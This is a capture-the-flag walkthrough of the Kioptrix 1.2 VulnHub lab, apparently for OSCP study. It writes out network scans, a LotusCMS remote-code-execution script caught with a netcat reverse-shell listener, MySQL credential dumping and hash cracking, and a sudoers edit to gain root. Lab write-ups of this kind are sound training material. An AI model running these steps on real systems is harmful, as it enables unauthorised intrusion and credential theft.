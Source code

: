 ```yaml
---
title: "Kioptrix #3 Walkthrough"
author: alex
date: Fri 28 Jul 17:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-kioptrix-3-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.2**. Or Kioptrix #3. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthroughs: **[Kioptrix #1](/posts/kioptrix-1-walkthrough)** and **[Kioptrix #2](/posts/kioptrix-2-walkthrough)**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Gobuster
- Searchsploit
- Someone's exploit
- NetCat
- CrackStation

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.45    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.40
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.45
Host is up (0.00032s latency).
Not shown: 65533 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)

80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-favicon: Unknown favicon MD5: 99EFC00391F142252888403BB1C196D2
|_http-title: Ligoat Security - Got Goat? Security ...
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch

MAC Address: 08:00:27:5D:18:0B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.102 days (since Mon Apr  4 14:53:57 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=193 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.1.45
```

We can see two ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Let's open the browser and search for http://192.168.1.45. We find a web page and we can head to log into a LotusCMS but let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.45 -t 10`. And the only interesting result is a **phpMyAdmin** directory.

I tried to log in with some default credentials and I got access using `admin` as user and no password but not with enough permissions to do anything. So I went back to the login page.

It says powered by **LotusCMS** so I did a quick search with **searchsploit** to see what I could find: `searchsploit lotuscms`. And there is a Metasploit module that looked promising BUT didn't work so I Googled around the vulnerability trying to find an exploit. Here's the one I found that works: **[LotusCMS RCE](https://github.com/Hood3dRob1n/LotusCMS-Exploit)**. Now, give permissions to the file: `chmod 777 lotusRCE.sh` and execute the exploit: `./lotusRCE.sh 192.168.1.45 /`. To use it:

1. Enter your IP address when prompted.
2. Enter the port that best suits you. I used 1234.
3. Start **NetCat**: `sudo nc -nlvp 1234`.
4. Select the option #1 in the exploit
5. Go back to NetCat and there we go, we're in!

Let's look for some hardcoded credentials. They are normally inside a *config* file so let's locate any file containing **config.php** in its name: `locate config.php`. We will see that a *gconfig.php* file exists and, if we inspect it, we can see the **mysql** credentials there.

Now it's time to access **mysql** and try to escalate privileges. First let's get some creds: start `mysql` and then select the gallery database: `use gallery;`. Once there, let's dump the accounts credentials: `select * from dev_accounts;`. Here's what we get:

```
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+
```

These are **MD5** hashes so the will be easily cracked using **[CrackStation](https://crackstation.net/)**. THe first hash corresponds to **Mast3r** and the second to **starwars**. Let's try to connect via SSH with those creds: `ssh loneferret@10.0.2.24 -oHostKeyAlgorithms=+ssh-rsa`. 

Once inside **Kioptrix** let's see what we can do with sudo: `sudo -l`. We see we can use `ht` that is a text editor with sudo permissions so... we can change the **sudoers** file! Let's configure the terminal: `export TERM=xterm` and now: `sudo ht`.

Using this text editor is a bit weird but if you play around you'll manage to dominate it as I did. Or look for a tutorial if you wish. Once we have the **sudoers** file opened, we must add the following to the **loneferret** user: `ALL=(ALL) ALL`. Press `F2` to save the file and `Ctrl+Z` to exit.

Now, to check if it worked just execute `sudo su` and there you go! Now you can `cd` into the `root` directory and `cat` the **Congrats.txt** to proof you compromised the VM.